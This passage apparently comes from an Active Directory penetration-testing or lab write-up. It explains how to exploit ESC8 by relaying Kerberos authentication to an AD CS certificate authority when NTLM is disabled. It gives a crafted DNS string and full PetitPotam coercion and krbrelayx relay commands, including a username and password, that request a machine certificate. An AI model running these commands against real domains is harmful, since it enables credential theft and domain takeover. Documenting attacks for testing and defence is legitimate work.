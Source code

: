 ### Relaying to Domain Machines

In some environments, `NTLM` authentication may be disabled. In such cases, it's a common misconception that `ESC8` is not exploitable. In addition to enabling HTTPS and enforcing EPA, [Microsoft also recommends disabling NTLM authentication](https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429). Unfortunately, it is still possible to relay Kerberos authentication to domain machines using the same technique as before.

As the target endpoint is the `CA` (`palace-dc`), the DNS string must be: `palace-dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` so that the associated SPN in the relayed ticket is `cifs/palace-dc`.

```
/opt/tools/PetitPotam/PetitPotam.py -d 'jess.kingdom' -u 'Doros_ARCHIVON' -p 'bO3n21E6rc' palace-dc1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA SCRIPTORIUM.jess.kingdom
```

![](./assets/img/sysadmin/20d83fa61526390953f13652cbaec77c.png)

The `--victim` flag is used to specify the account name used in the certificate, as the `ntlmrelayx.py` library may fail to determine the correct account name to use in the certificate. In this case, we will use `SCRIPTORIUM$` as the victim account.

```
/opt/tools/krbrelayx/krbrelayx.py --target 'https://PALACE-DC.jess.kingdom/certsrv/certfnsh.asp' --adcs --template 'Machine' --victim 'SCRIPTORIUM$'
```
